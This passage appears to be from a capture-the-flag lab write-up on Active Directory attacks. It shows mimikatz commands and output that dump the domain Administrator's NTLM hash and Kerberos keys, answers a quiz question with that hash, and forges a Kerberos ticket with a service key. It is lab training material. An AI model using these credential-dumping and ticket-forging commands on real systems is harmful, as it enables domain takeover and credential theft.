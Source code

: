 ```
mimikatz # lsadump::lsa /inject /name:Administrator
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 000001f4 (500)
User : Administrator

 * Primary
    NTLM : 2777b7fec870e04dda00cd7260f7bee6
    LM   :
  Hash NTLM: 2777b7fec870e04dda00cd7260f7bee6

 * Kerberos
    Default Salt : WIN-G83IJFV2N03Administrator
    Credentials
      des_cbc_md5       : 918abaf7dcb02ce6

 * Kerberos-Newer-Keys
    Default Salt : WIN-G83IJFV2N03Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 42b3c13c8c0fef3175eb2b5926f805f919123efd001a9c5a16ee9a86101e32b4
      aes128_hmac       (4096) : d01d6ccf97a2ee214ec7185173a3b659
      des_cbc_md5       (4096) : 918abaf7dcb02ce6

 * NTLM-Strong-NTOWF
    Random Value : 7bfd4ae86442827fb0db294d5c9855ce
```
What is the Administrator NTLM Hash? *2777b7fec870e04dda00cd7260f7bee6*

*creating a silver ticket*

```
mimikatz # Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103
User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-432953485-3795405108-1502158860
User Id   : 1103
Groups Id : *513 512 520 518 519
ServiceKey: 72cd714611b64cd4d5550cd2759db3f6 - rc4_hmac_nt
Lifetime  : 8/20/2022 12:23:32 PM ; 8/17/2032 12:23:32 PM ; 8/17/2032 12:23:32 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```
